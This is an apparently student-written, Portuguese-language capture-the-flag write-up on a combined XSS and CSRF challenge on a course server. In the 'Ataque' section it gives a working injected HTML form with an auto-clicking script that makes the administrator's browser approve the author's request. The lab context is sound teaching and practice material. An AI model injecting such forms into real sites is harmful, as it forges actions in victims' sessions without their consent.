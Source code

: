 # CTF Semana #6 (XSS + CSRF)

## Pistas

De modo a realizar este CTF, foram-nos fornecidas algumas pistas:

- Na porta 5004 do servidor ctf-fsi.fe.up.pt encontra-se um servidor no qual poderemos fazer um pedido ao administrador para que este nos dê acesso à flag.
- O administrador aceitará o nosso pedido através da porta 5005 onde se encontram dois botões: um para aceitar o pedido e outro para rejeitar. Estes botões encontram-se desativados para nós.
- A nossa página dá refresh de 5 em 5 segundos e a resposta do administrador pode demorar até 2 minutos.

Para além deste contexto também nos são fornecidas duas dicas muito importantes relativas às técnicas que devemos usar para resolver este CTF:

> - `Cross-site Scripting`: consiste em injectar código em input do utilizador. Explora as páginas web como um utilizador comum e descobre que input podes controlar.
> - `Cross-site Request Forgery`: consiste em, numa página com uma dada origem, fazer pedidos a uma página numa origem diferente. Explora que diferentes páginas existem e que pedidos desejas executar.

## Servidor

Ao entrar no servidor somos recebidos com a seguinte página:

<img src="images/ctf6/request.png">

Esta página possui uma entrada de texto que, após submissão nos leva à seguinte página:

<img src="images/ctf6/request4541888198e50dfa3fa15ec02794bd1c57134e6c.png">

Esta página é a página que dá refresh de `5s em 5s` tornando-se difícil verificar o seu **HTML** ou os pedidos que faz. No entanto, e tendo em conta as pistas fornecidas, começamos a perceber que o input da primeira página provavelmente será o local onde deveremos fazer a nossa injeção de código.

A segunda página possui um botão que nos permite chegar à página do administrador:

<img src="images/ctf6/admin-request.png">

Esta página possui, tal como referia a pista, dois botões que se encontram desativados para nós. Verificando o **HTML** desta página conseguimos ver o pedido que cada um dos botões faz:

```html
<form
  method="POST"
  action="/request/b2a22357fbd231437b8875c71dedb9ddebb535f1/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" disabled="" />
  </div>
</form>
```

Verificamos rapidamente que o botão que nos interessa é o primeiro, uma vez que é este que emite um método post que aceita o nosso pedido. Se tentarmos executar este pedido manualmente aparece-nos a seguinte página:

<img src="images/ctf6/method-not-allowed.png">

## Ataque

Sendo o nosso objetivo que o administrador emita o método post que aceita o nosso id atual, podemos fazê-lo inserindo um form semelhante ao que se encontra na **porta 5005** na página inicial da **porta 5004**. O form que nós fizemos foi o seguinte:

```html
<form
  method="POST"
  action="http://ctf-fsi.fe.up.pt:5005/request/2d4cd430aa921d7a0ab7e0ab976d1e978a58dbe8/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" />
  </div>
  <script>
    document.getElementById("giveflag").click();
  </script>
</form>
```

As alterações que fizemos ao form original consistiram em remover o atributo `disabled` do botão de `submit` e adicionámos um script que faz com que do lado do administrador o botão seja clicado automaticamente.
Deste modo o administrador emitirá o pedido pretendido.

---

Por fim, apenas temos mais um problema! A página para a qual somos redirecionados após a submissão no input possui o seguinte script (já referido anteriormente):

```html
<script>
  setTimeout(function () {
    window.location.reload();
  }, 5000);
</script>
```

Este script causa um refresh da página de `5s em 5s` causando assim um refresh do id válido do nosso pedido. De maneira a contornar este problema podemos **desativar o javascript do nosso browser**:

<img src="images/ctf6/disable-javascript.png">

---

Posto isto, conseguimos finalmente obter a flag a partir dos seguintes passos:

1. Inserir o form na página inicial da porta 5004;
   <img src="images/ctf6/step1.png">

2. Após submeter o form no input, dar refresh manualmente à página uma vez que o nosso pedido foi aceite do lado do administrador;
   <img src="images/ctf6/step2.png">

3. A nossa flag aparece no ecrã!
   <img src="images/ctf6/step3.png">
